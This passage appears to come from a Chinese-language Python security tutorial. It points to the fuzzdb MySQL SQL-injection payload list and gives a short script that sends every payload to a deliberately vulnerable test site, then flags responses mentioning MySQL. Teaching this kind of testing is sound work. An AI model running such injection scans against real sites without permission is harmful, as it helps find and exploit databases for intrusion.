 ![](img/1107a246-1469-4197-8a84-cdf0fe899375.png)

我们还可以找到其他用于测试 MySQL 数据库中 SQL 注入的文件：[`github.com/fuzzdb-project/fuzzdb/blob/master/attack/sql-injection/detect/MySQL.txt`](https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/sql-injection/detect/MySQL.txt)。

在`Mysql.txt`文件中，我们可以看到所有可用的攻击向量，以发现 SQL 注入漏洞：

![](img/f3866661-f9d6-4654-b485-30ff8e20c8af.png)

我们可以使用先前的文件来检测特定站点中的 SQL 注入漏洞：testphp.vulnweb.com。

您可以在`pywebfuzz_folder`内的`demofuzz_sql.py`文件中找到以下代码：

```py
from pywebfuzz import fuzzdb
import requests

mysql_attacks= fuzzdb.attack_payloads.sql_injection.detect.MySQL

domain = "http://testphp.vulnweb.com/listproducts.php?cat="

for attack in mysql_attacks:
    print "Testing... "+ domain + attack
    response = requests.get(domain + attack)
    if "mysql" in response.text.lower(): 
        print("Injectable MySQL detected")
```
